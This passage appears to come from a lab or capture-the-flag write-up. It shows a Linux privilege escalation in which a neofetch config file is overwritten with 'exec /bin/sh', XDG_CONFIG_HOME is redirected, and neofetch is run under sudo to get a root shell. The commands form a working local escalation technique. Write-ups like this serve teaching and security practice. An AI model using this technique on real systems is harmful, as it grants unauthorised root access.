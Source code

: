 then Neofetch will look in:

```
/home/thomas/.config/neofetch/config.conf

```

instead of `~/.config/neofetch/config.conf`.

Let’s change the config.conf to a shell and export XDG_CONFIG_HOME to our current home dir:

```bash
echo 'exec /bin/sh' > /home/thomas/.config/neofetch/config.conf

#verify
cat /home/thomas/.config/neofetch/config.conf

#now export
export XDG_CONFIG_HOME=/home/thomas/.config
```

Now let’s execute neofetch as sudo:

```bash
sudo /usr/bin/neofetch 
```

![image.png]({{ site.baseurl }}/assets/meta/image%2010.png)

We are now root.